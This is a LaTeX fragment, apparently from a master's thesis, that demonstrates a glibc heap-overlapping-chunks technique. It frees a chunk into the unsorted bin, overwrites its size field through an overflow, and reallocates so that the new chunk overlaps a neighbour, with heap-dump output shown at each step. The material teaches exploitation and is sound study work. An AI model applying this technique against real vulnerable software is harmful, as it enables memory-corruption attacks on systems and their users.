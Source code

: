 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\begin{document}
Now lets free() the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation:

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
  Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)

Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
  [0x0000555555559210   33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33  3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV_INUSE)  top chunk
\end{lstlisting}

In the next step, like we did before, We have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
  Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
As you remember, currently , p2 located at the \ub{} , also, we change the size of p2, so, when the heap manager receives an allocation request it return p2, as the result, it have overlap with previous chunks:

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}
\end{document}
